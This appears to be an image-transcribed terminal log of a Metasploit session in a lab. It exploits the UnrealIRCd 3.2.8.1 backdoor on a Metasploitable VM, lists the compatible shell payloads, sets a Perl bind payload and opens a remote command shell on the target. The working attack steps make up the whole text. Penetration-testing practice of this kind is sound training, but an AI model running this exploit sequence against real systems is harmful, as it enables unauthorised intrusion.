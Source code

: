 ```bash
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[-] 192.168.56.109:6667 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set target 0
target => 0
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[-] 192.168.56.109:6667 - Exploit failed: A payload has not been selected.
[*] Exploit completed, but no session was created.
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > show payloads

Compatible Payloads
===================

   #   Name                                        Disclosure Date  Rank    Check  Description
   -   ----                                        ---------------  ----    -----  -----------
   0   payload/cmd/unix/bind_perl                                   normal  No     Unix Command Shell, Bind TCP (via Perl)
   1   payload/cmd/unix/bind_perl_ipv6                              normal  No     Unix Command Shell, Bind TCP (via perl) IPv6
   2   payload/cmd/unix/bind_ruby                                   normal  No     Unix Command Shell, Bind TCP (via Ruby)
   3   payload/cmd/unix/bind_ruby_ipv6                              normal  No     Unix Command Shell, Bind TCP (via Ruby) IPv6
   4   payload/cmd/unix/generic                                     normal  No     Unix Command, Generic Command Execution
   5   payload/cmd/unix/reverse                                     normal  No     Unix Command Shell, Double Reverse TCP (telnet)
   6   payload/cmd/unix/reverse_bash_telnet_ssl                     normal  No     Unix Command Shell, Reverse TCP SSL (telnet)
   7   payload/cmd/unix/reverse_perl                                normal  No     Unix Command Shell, Reverse TCP (via Perl)
   8   payload/cmd/unix/reverse_perl_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via perl)
   9   payload/cmd/unix/reverse_ruby                                normal  No     Unix Command Shell, Reverse TCP (via Ruby)
   10  payload/cmd/unix/reverse_ruby_ssl                            normal  No     Unix Command Shell, Reverse TCP SSL (via Ruby)
   11  payload/cmd/unix/reverse_ssl_double_telnet                   normal  No     Unix Command Shell, Double Reverse TCP SSL (telnet)

msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > set payload 0
payload => cmd/unix/bind_perl
msf6 exploit(unix/irc/unreal_ircd_3281_backdoor) > exploit

[*] 192.168.56.109:6667 - Connected to 192.168.56.109:6667...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Looking up your hostname...
    :irc.Metasploitable.LAN NOTICE AUTH :*** Couldn't resolve your hostname; using your IP address instead
[*] 192.168.56.109:6667 - Sending backdoor command...
[*] Started bind TCP handler against 192.168.56.109:4444
[*] Command shell session 1 opened (192.168.56.108:41427 -> 192.168.56.109:4444) at 2023-03-25 07:44:31 -0400

uname
Linux
hostname
metasploitable
ip a | grep eth1
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast qlen 1000
    inet 192.168.56.109/24 brd 192.168.56.255 scope global eth1
```